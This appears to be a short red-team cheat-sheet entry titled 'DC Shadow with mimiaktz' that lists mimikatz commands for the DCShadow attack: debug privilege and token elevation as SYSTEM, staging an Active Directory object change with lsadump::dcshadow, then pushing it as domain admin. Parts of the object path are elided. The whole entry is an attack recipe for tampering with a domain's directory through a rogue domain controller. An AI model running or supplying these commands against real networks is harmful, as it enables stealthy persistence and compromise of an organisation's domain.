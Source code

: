 
## DC Shadow with mimiaktz

Running as SYSTEM

```powershell
privilege::debug 
token::elevate 
lsadump::dcshadow /stack /object:CN=Zoombie,DC=contoso,DC=com... 
... 
lsadump::dcshadow
```

Running as domain admin

```powershell
lsadump::dcshadow /push
```